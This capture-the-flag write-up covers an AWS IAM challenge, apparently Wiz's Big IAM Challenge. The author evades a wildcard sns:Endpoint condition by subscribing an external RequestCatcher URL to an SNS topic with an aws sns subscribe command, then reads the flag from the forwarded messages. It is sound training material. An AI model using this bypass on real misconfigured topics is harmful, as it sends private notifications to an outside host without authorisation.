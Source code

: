 # Challenge number 
3

## Challenge Statement
Enable Push Notifications: We got a message for you. Can you get it?

## IAM Policy
```json
{
    "Version": "2008-10-17",
    "Id": "Statement1",
    "Statement": [
        {
            "Sid": "Statement1",
            "Effect": "Allow",
            "Principal": {
                "AWS": "*"
            },
            "Action": "SNS:Subscribe",
            "Resource": "arn:aws:sns:us-east-1:092297851374:TBICWizPushNotifications",
            "Condition": {
                "StringLike": {
                    "sns:Endpoint": "*@tbic.wiz.io"
                }
            }
        }
    ]
}
```
### write a short analysis about the IAM policy here
```
* What do I have access to?
I have access to subscribe an HTTPS endpoint to the SNS topic TBICWizPushNotifications and receive notifications sent to the topic.

* What don't I have access to?
I cannot modify the SNS topic, publish messages to the topic, or access other AWS resources or internal logs related to the topic.

* What do I find interesting?
The most interesting part was using the sns:Endpoint condition to restrict subscriptions to a specific domain (@tbic.wiz.io) and confirming the subscription through an HTTPS endpoint. I also found that the flag might be hidden in one of the messages sent to the topic.
```

## Solution
Detailed steps to the flag

Step 1: Review IAM Policy-
The IAM policy allowed me to subscribe to the SNS topic TBICWizPushNotifications using an HTTPS endpoint with the domain @tbic.wiz.io.

Step 2: Prepare Subscription Endpoint
I used RequestCatcher to create an endpoint that matched the policy condition:
https://test.requestcatcher.com/test@tbicwiz.io

Step 3: Subscribe to the SNS Topic
I ran the following AWS CLI command to subscribe the endpoint to the SNS topic:
aws sns subscribe \
    --topic-arn arn:aws:sns:us-east-1:092297851374:TBICWizPushNotifications \
    --protocol https \
    --notification-endpoint 'https://test.requestcatcher.com/test@tbicwiz.io'

Step 4: Confirm Subscription
SNS sent a confirmation request to the endpoint, which I accepted through RequestCatcher to complete the subscription.

Step 5: Receive and Analyze Messages
Once confirmed, I received messages at the endpoint. One of the messages contained the flag, which I identified by analyzing the payload.


## Reflection
* What was your approach?
I reviewed the IAM policy, subscribed to the SNS topic using an HTTPS endpoint, confirmed the subscription, and analyzed the messages for the flag.

* What was the biggest challenge?
The biggest challenge was ensuring the subscription was confirmed correctly and receiving messages from the SNS topic.

* How did you overcome the challenges?
I used RequestCatcher to confirm the subscription and monitor incoming messages.

* What led to the break through?
Successfully confirming the subscription and receiving the messages at the endpoint helped me locate the flag.

* On the blue side, how can the learning be used to properly defend the important assets? 
By using IAM policies to tightly control access to resources like SNS topics, we can restrict subscriptions to trusted endpoints and prevent unauthorized access.